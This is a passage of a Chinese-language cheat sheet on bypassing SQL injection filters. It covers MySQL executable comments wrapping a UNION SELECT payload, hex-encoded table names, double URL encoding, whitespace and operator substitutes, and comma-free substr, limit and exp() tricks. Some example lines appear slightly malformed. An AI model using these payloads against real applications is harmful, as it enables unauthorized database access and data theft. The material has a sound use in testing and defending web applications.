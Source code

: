 例如MySQL服务器可以在以下语句中识别`STRAIGHT_JOIN`关键字，而其他服务器则不能：

```
SELECT /*! STRAIGHT_JOIN*/ col1 FROM table1,table2 WHERE ...
```

/*! */类型的注释，内部语句会被执行

一般用来绕过空格

```
select bbb from table1 where aaa='' union /*! select database()*/;
```



#### **5.特殊编码绕过**

16进制编码绕过

如果在查询字段名的时候表名被过滤，或者是数据库中某些特定字符被过滤，则可以使用16进制绕过。

```
select column_name from information_schema.columns where table_name=0x7573657273;
```

`0x7573657273`为users的16进制编码



#### **6.双重url编码绕过**

对字符串进行二次url编码，可绕过关键字过滤



#### **7.空格绕过**

可以使用%0d(回车)、%0a(换行)、%09(tab制表)、/**/、%a0(&nbsp）、%0b(垂直制表符)、%0c（换页符）



#### 8.过滤了 and、or、=、>、<、regexp

使用 &&、||、 like、greatest(返回值的最大值)、least（返回值的最小值）



#### **9.过滤了逗号**

limit使用from或者offset

select substr(database(0from1for1);select mid(database(0from1for1);



substr使用from for

select * from news limit 0,1 <=> select * from news limit 1 offset 0



if语句使用exp()函数代替

exp()函数除了能用在报错注入以外，利用exp在参数大于709时会报错的特性可以用来构造条件判断语句

```
||exp(710-(... rlike ...))
```
